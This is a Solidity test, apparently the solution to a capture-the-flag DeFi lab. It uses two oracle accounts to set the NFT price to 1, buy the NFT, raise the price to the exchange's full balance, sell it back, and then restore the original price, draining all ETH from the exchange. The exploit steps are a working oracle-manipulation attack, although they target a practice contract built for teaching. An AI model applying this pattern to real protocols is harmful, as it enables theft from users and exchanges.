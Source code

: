 ```solidity
        vm.startPrank(oracle1);
        oracle.postPrice(nft.symbol(), 1);
        vm.stopPrank();
        vm.startPrank(oracle2);
        oracle.postPrice(nft.symbol(), 1);
        vm.stopPrank();

        // buy the nft
        vm.startPrank(player);
        uint256 id = exchange.buyOne{value: 1}();
        vm.stopPrank();

        // set nft price to the exchange balance
        vm.startPrank(oracle1);
        oracle.postPrice(nft.symbol(), address(exchange).balance);
        vm.stopPrank();
        vm.startPrank(oracle2);
        oracle.postPrice(nft.symbol(), address(exchange).balance);
        vm.stopPrank();

        // sell the nft to get the whole balance from exchange
        vm.startPrank(player);
        nft.approve(address(exchange), id);
        exchange.sellOne(id);
        (bool success,) = recovery.call{value: EXCHANGE_INITIAL_ETH_BALANCE}("");
        require(success, "Fail to send ETH");
        vm.stopPrank();

        // restore the oracle price
        vm.startPrank(oracle1);
        oracle.postPrice(nft.symbol(), INITIAL_NFT_PRICE);
        vm.stopPrank();
        vm.startPrank(oracle2);
        oracle.postPrice(nft.symbol(), INITIAL_NFT_PRICE);
        vm.stopPrank();

        emit log("-------------------------- After exploit --------------------------");
        emit log_named_decimal_uint("ETH balance in the exchange contract", address(exchange).balance, 18);
        emit log_named_decimal_uint("ETH balance in the recovery address", recovery.balance, 18);
    }

    /**
     * CHECKS SUCCESS CONDITIONS - DO NOT TOUCH
     */
    function _isSolved() private view {
        // Exchange doesn't have ETH anymore
        assertEq(address(exchange).balance, 0);

        // ETH was deposited into the recovery account
        assertEq(recovery.balance, EXCHANGE_INITIAL_ETH_BALANCE);

        // Player must not own any NFT
        assertEq(nft.balanceOf(player), 0);

        // NFT price didn't change
        assertEq(oracle.getMedianPrice("DVNFT"), INITIAL_NFT_PRICE);
    }
}
```
